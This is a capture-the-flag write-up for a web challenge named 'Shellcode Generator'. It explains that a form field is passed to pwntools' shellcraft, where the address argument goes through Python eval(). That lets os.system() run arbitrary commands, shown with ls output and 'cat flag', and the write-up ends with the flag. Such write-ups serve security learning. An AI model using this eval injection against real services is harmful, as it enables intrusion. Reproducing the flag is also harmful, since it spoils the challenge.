

# Shellcode Generator [6]
Tags: Miscellaneous

_Under the nose of SieberrHealth, you spent about a month as an intern for the company, crafting an intentionally vulnerable web-service as a *backdoor* into SieberrHealth's systems._

_Walking out of your office for the last time, you cut across an empty street, slipping into quiet alleyway for the privacy you need._

_Pulling out a tablet, you access the vulnerable website, preparing to..._

_to..._

...

_A pop-up from your device spurs you from your stupor._

_The message reads:_

```
Thank you for working with us at SieberrHealth.
As part of our ongoing efforts to combat lapses in SieberrHealth Security, we are re-calibrating the memory module in your brain's Health360 Integral Chip to remove all memories related to your project: *Shellcode Generator*.
_Obscurity is Security!_
```

_Well, crap._

###### Author's Note: This is a misc challenge. If you find a web-based/pwn-based exploit for this challenge... feel free to flex :)

Hint 1 (2 points): A note on your device reads: pwnlib/commandline/shellcraft.py

## Solving
There's not a lot to see here.

Let's try submitting an empty form (i.e. `shellcode=&address=`):



The website gives this in response:
```
Your shellcode: usage: pwn [-h] {asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,phd,pwnstrip,scramble,shellcraft,template,unhex,update,version} ...
Shellcode Assembly:usage: pwn [-h]
{asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,phd,pwnstrip,scramble,shellcraft,template,unhex,update,version}
...
```
This looks like the output from a command-line utility, and the [hint](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/commandline/shellcraft.py) corroborates with this. If you search for the `pwn` command hard enough, you'll figure out that the server is running the command `pwn shellcraft ...` for every request, with the command-line arguments determined by whatever's written in the form.

For example, if you submit a form like this (`shellcode=amd64.crash&address=`):


The webpage will return this:
```asm
Your shellcode: 5f5e5d5b5b5a59584831e4ffe4
Shellcode Assembly: /* fill all registers with shit */
pop rdi
pop rsi
pop rbp
pop rbx /* add rsp, 8 */
pop rbx
pop rdx
pop rcx
pop rax
xor rsp, rsp /* especially esp */
jmp rsp /* boom */
```
Which corresponds with what you'd get by running this command on a terminal:
```asm
$ pwn shellcraft -f p amd64.crash
    /* fill all registers with shit */
    pop rdi
    pop rsi
    pop rbp
    pop rbx /* add rsp, 8 */
    pop rbx
    pop rdx
    pop rcx
    pop rax
    xor rsp, rsp /* especially esp */
    jmp rsp /* boom */
```
With knowledge of what the server does in the backend, we need to figure out how to exploit it.

## `eval()`
There are 4 arguments available for input: `"shellcode identifier"` (`shellcode`), `"Avoid newlines:"` (`newline`), `"Avoid NULL bytes:"` (`nuls`), and `"Address"` (`address`).

By means of fuzzing/reading-source-code, you're supposed to eventually notice that `address` is [parsed by `eval()`](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/commandline/shellcraft.py#L296-L298) within the source code for pwntools:
```python
    vma = args.address
    if vma:
        vma = eval(vma)
```
This means that it is possible to execute arbitary python code via the `address` input field, provided that `pwn shellcraft ...` doesn't crash before getting to the part where `address` is evaluated.

There are a lot of things you can do with this bug, but the simplest thing to do is to simply inject commands by calling `os.system()`:


The resulting webpage response will look like this:
```
Your shellcode: total 64 drwxr-x--- 1 root ctf 4096 Jan 4 08:48 . drwxr-xr-x 1 root root 4096 Jan 3 14:30 .. -rwxr-x--- 1 root ctf 220 Feb 25 2020 .bash_logout -rwxr-x--- 1 root ctf 3771 Feb 25 2020 .bashrc -rwxr-x--- 1 root ctf 807 Feb 25 2020 .profile drwxr-x--- 1 root ctf 20480 Jan 3 14:30 bin drwxr-x--- 1 root ctf 4096 Jan 3 14:30 dev -rwxr----- 1 root ctf 40 Jan 3 13:46 flag lrwxrwxrwx 1 root ctf 7 Jan 3 14:30 lib -> usr/lib lrwxrwxrwx 1 root ctf 9 Jan 3 14:30 lib32 -> usr/lib32 lrwxrwxrwx 1 root ctf 9 Jan 3 14:30 lib64 -> usr/lib64 lrwxrwxrwx 1 root ctf 10 Jan 3 14:30 libx32 -> usr/libx32 -rwxr-x--- 1 root ctf 955 Jan 4 08:39 main.py drwxr-x--- 1 root ctf 4096 Jan 4 08:48 static drwxr-x--- 1 root ctf 4096 Jan 4 08:48 templates drwxr-x--- 1 root ctf 4096 Jan 3 14:30 usr 5f5e5d5b5b5a59584831e4ffe4
Shellcode Assembly: /* fill all registers with shit */
...
```
All you need to do is to replace `ls -la` in the image with `cat flag` to finish the challenge.

## Flag
`IRS{CVE-2021-PWN_ba03ba78310bcdfe18902}`